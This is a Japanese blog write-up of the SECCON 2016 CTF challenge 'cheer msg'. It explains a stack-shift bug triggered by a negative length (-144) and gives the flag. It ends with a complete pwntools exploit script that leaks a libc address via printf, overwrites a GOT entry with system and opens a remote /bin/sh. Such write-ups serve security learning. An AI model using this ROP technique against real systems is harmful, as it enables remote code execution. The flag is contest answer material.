 ```yaml
---
layout: post
alias: "/blog/2016/12/16/seccon-2016-online-cheermsg/"
date: "2016-12-16T21:02:05+09:00"
tags: [ "ctf", "writeup", "pwn", "rop" ]
"target_url": [ "https://score-quals.seccon.jp/question/3093a2f4584782e888feb5cf243d982dd3211e2b" ]
---
```


# SECCON 2016 Online CTF: cheer msg

本番でやりかけたら影白さんが先に解いてくれてそのままになってた。
なのでpwn会で解いた。後輩らが村人Bで苦しんでるのを眺めながら解いて$3$時間かかった。もうちょっと速くしたい。

## problem

$32$bit。入力が$3$箇所。

``` sh
$ ./cheer_msg
Hello, I'm Nao.
Give me your cheering messages :)

Message Length >> 8  
Message >> Hello

Oops! I forgot to ask your name...
Can you tell me your name?

Name >> Yu

Thank you Yu!
Message : Hello
```

## solution

Message Lengthに指定した量だけ`main`関数内のlocal変数として領域が確保され、`message`関数内でこれに読み書きがされる。
ここで負数を指定するとMessage部分での読み込みは行われなくなるが、stackがずれることにより、Nameの読み込みで戻り先addressを書き換えることができる。
$-144$を指定するとちょうどNameの先頭に戻り先addressが来る。

後は適当にROP。`SECCON{N40.T_15_ju571c3}`。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='cheermsg.pwn.seccon.jp')
parser.add_argument('port', nargs='?', default=30527, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--libc', default='libc-2.19.so-c4dc1270c1449536ab2efbbe7053231f1a776368')
args = parser.parse_args()
context.log_level = args.log_level

elf = ELF('./cheer_msg')
libc = ELF(args.libc)
bss = 0x804a040
buf = bss + 0x300
thankyou = 0x804887e # "Thank you %s!\n"
pop_pop_ret = 0x080487ae # pop edi ; pop ebp ; ret

payload = ''
payload += p32(elf.plt['printf'])
payload += p32(pop_pop_ret)
payload += p32(thankyou)
payload += p32(elf.got['setbuf'])
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(elf.got['setbuf'])
payload += p32(100)
payload += p32(elf.symbols['getnline'])
payload += p32(pop_pop_ret)
payload += p32(buf)
payload += p32(100)
payload += p32(elf.plt['setbuf'])
payload += 'CCCC'
payload += p32(buf)

p = remote(args.host, args.port)
p.recvuntil('Message Length >> ')
p.sendline('-144')
p.recvuntil('Message >> ')
p.recvuntil('Name >> ')
p.sendline(payload)
p.recvuntil('Thank you ')
p.recvuntil('Thank you ')
setbuf = u32(p.recv(4))
system = setbuf - libc.symbols['setbuf'] + libc.symbols['system']
log.info('setbuf: %#x', setbuf)
log.info('system: %#x', system)
time.sleep(0.3)
p.sendline(p32(system))
time.sleep(0.3)
p.sendline('/bin/sh\0')
time.sleep(1)
p.sendline('id')
p.interactive()
```
